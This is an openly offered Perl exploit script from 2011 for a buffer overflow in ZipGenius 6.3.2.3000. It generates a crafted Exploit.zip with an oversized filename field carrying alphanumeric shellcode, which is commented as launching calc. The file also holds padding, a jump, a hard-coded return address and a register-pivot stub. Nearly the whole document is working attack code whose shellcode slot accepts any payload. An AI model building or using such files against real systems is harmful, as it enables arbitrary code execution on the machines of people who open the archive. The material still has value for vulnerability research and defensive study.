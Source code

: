 EXP
---

    #!/usr/bin/perl
    #
    #[+]Exploit Title: ZipGenius v6.3.2.3000 .ZIP File Buffer Overflow Exploit
    #[+]Date: 08\07\2011
    #[+]Author: C4SS!0 G0M3S
    #[+]Software Link: http://www.freewarefiles.com/ZipGenius-V_program_3344.html
    #[+]Version: 6.3.2.3000
    #[+]Tested On: WIN-XP SP3 Brazilian Portuguese
    #[+]CVE: N/A
    #
    #

    use strict;
    use warnings;

    my $filename = "Exploit.zip";

    print "\n\n\t\tZipGenius v6.3.2.3000 .ZIP File Buffer Overflow Exploit\n";
    print "\t\tCreated by C4SS!0 G0M3S\n";
    print "\t\tE-mail Louredo_\@hotmail.com\n";
    print "\t\tSite www.exploit-br.org/\n\n";
    sleep(2);

    my $head = "\x50\x4B\x03\x04\x14\x00\x00".
    "\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00" .
    "\x00\x00\x00\x00\x00\x00\x00\x00" .
    "\xe4\x0f" .
    "\x00\x00\x00";

    my $head2 = "\x50\x4B\x01\x02\x14\x00\x14".
    "\x00\x00\x00\x00\x00\xB7\xAC\xCE\x34\x00\x00\x00" .
    "\x00\x00\x00\x00\x00\x00\x00\x00\x00".
    "\xe4\x0f".
    "\x00\x00\x00\x00\x00\x00\x01\x00".
    "\x24\x00\x00\x00\x00\x00\x00\x00";

    my $head3 = "\x50\x4B\x05\x06\x00\x00\x00".
    "\x00\x01\x00\x01\x00".
    "\x12\x10\x00\x00".
    "\x02\x10\x00\x00".
    "\x00\x00";

    my $shellcode =
    "PYIIIIIIIIIIQZVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJIOJDKJTSICL9MYQ8YRTQ4L".
    "41K6IXI81WBLCZKKL6QQC4NUSV8KJMKLIY2JJN5RRQJJKMUKKOO9JZ7Z884POWXJJLXSS8CON5XJW912".
    "6WONPTLG14NQQOQPMYLMQOSFQUN9FUSTKXQFKQUPL4OIS4W5U1T3FLHQ2EHPKOYKTDWZSHQMQM7MPBKL".#SHELLCODE WinExec("CALC",0);
    "KVW7HKWHCNOP2NOKCHNMGNSO8LYMLS0OJTXRUPYQSFKNYFVBZK47DQVNZFBNGWMNPPQPZQV337XMPXCL".
    "VLJ0C3C3CVKMWKRL0GWBLSP1NVKBSOUN4V7L8G8WKYNOJ2NMOOKTYTNLFE1XOFOHXHMNPZ5LRKOOUNLK".
    "HLUVXGLMWHP7KWNMXSB644O4CEMVCLPO6QJ9KYJPKXJD4LCTYPOTYVTJTLSQ4OGKMRK8SI7D7BNMO2OB".
    "K4BX0S5LKNQX14OM8646B9CZOA";

    my $payload = $shellcode;
    $payload .= "A" x (1060-length($shellcode));
    $payload .= "\xeb\x0b\x90\x90";
    $payload .= pack('V',0x0283119C);
    $payload .= "\x45" x 10;
    $payload .= ("\x61" x 13)."\x58\x50\xc3"; #POP EAX / PUSH EAX / RETN

    $payload .= "\x41" x (4064-length($payload));
    $payload = $payload.".txt";
    my $zip = $head.$payload.$head2.$payload.$head3;
    open(FILE,">$filename") || die "[-]Error:\n$!\n";
    print FILE $zip;
    close(FILE);
    print "[+] ZIP File Created With Sucess:)\n";
    sleep(1);